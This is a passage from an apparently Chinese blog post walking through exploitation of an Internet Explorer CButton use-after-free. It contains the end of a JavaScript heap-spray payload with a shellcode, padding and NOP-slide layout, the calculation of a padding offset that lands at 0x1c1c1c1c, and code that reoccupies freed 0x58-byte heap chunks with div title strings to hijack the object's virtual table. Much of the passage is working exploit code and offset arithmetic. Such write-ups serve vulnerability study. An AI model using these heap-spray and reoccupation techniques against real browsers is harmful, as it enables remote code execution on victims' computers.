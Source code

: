  <span class="hljs-flow">for</span> (p = <span class="hljs-number">0</span>; p &lt; padding_size; p++){
 Padding += unescape('%u1c1c');}

 <span class="hljs-flow">for</span> (c = <span class="hljs-number">0</span>; c &lt; block_size; c++){
 NopSlide += unescape('%u1c1c');} //jmp
 NopSlide = NopSlide.substring(<span class="hljs-number">0</span>,block_size - (Shellcode.length + Padding.length));

 var OBJECT = Padding + Shellcode + NopSlide;
 OBJECT = alloc(<span class="hljs-number">0</span>xfffe0, OBJECT); // <span class="hljs-number">0</span>xfffe0 = <span class="hljs-number">1</span>mb

 var evil = new Array();
 <span class="hljs-flow">for</span> (var k = <span class="hljs-number">0</span>; k &lt; <span class="hljs-number">0</span>x350; k++) {
 evil[k] = OBJECT.substr(<span class="hljs-number">0</span>, OBJECT.length);
 }
 alert('spray done !');
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;</code></pre>
<p>因为我们需要构造rop链所以，需要知道准确的跳转地址，这里我们需要一定的尝试与计算 <br>
首先我们不设置padding_size的大小 <br>
及 <br>
<code>padding_size = 0x00; //offset to 0x0c0c0c0c inside our 0x1000 hex block</code></br></br></br></p>
<p>我们观察一下0x1c1c1c1c所处的第一个堆块的位置0x1c0e0020</p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629103133507?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
0x1c1c1c1c距离0x1c0e0020<code>0x1c1c1c1c-0x1c0e0020=0xe1bfc</code> <br>
因为每一个payload的大小是0x2000，这里引用别人的一张图，表述一下现在内存的情况 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629105137955?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></br></br></img></p>
<p>所以这里<code>0xe1bfc%0x2000 = 0x1bfc</code> <br>
又因为unescape使得两个字节成为了一个字节，所以这里在填充的时候除2 <br>
<code>padding_size = 0xdFe</code> <br>
我们看一下效果，发现成功定位，下一步工作就是替换虚表地址 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629105252731?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></br></br></br></p>
<h2 id="0x2-对象占位">0x2 对象占位</h2>
<p>这一步很关键，前面分析了edi为对象指针，在释放后重新使用。这一步我们见改写CButton的dword使他指向自己造的虚表，达到劫持程序流。</p>
<p>这里需要了解为什么会占位成功。</p>
<blockquote>
<p>关于堆分配器有几件事我们需要知道： <br>
  (1)由于内存动态分配和释放，会产生堆碎片； <br>
  (2)堆内存块释放。会由前端或后端分配器回收(依赖操作系统). 分配器类似于缓存服务那样优化内存块分配。像之前提到堆分配和释放产生堆碎片(=bad)，为了较少堆碎片，新分配一块内存时，堆分配器会直接返回之前释放的一块同样大小的内存。从而减少了新分配的次数(=good)； <br>
  (3)虽然堆内存是动态分配，但是分配器往往会连续的分配内存块 (为了减少堆碎片)这意味着从攻击者的角度来看堆是确定的。 连续的分配内存我们就可以在某个可预测的地址上布置我们的数据。</br></br></br></p>
</blockquote>
<p>所以我们要申请一个和以前大小一样的内存空间，前面的内存申请已经很详细了，申请了0x58字节，所以我们这里也要重复申请0x58字节大小的内存。</p>
<pre class="prettyprint"><code class=" hljs cs"> <span class="hljs-keyword">for</span>(<span class="hljs-keyword">var</span> i = <span class="hljs-number">0</span>; i&lt;<span class="hljs-number">0x550</span>; i++)<span class="hljs-comment">//这里必须根据自己的电脑来配置</span>
 {
     arr_div[i]= document.createElement(<span class="hljs-string">"div"</span>);
     arr_div[i].title= junk.substring(<span class="hljs-number">0</span>,(<span class="hljs-number">0x58</span>-<span class="hljs-number">6</span>)/<span class="hljs-number">2</span>);
 }</code></pre>
<p>发现已经成功占位，<code>eax=1c1c1c1c</code>下一步就是<code>call [eax+0xdc]</code> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629113337551?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170629164659123?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>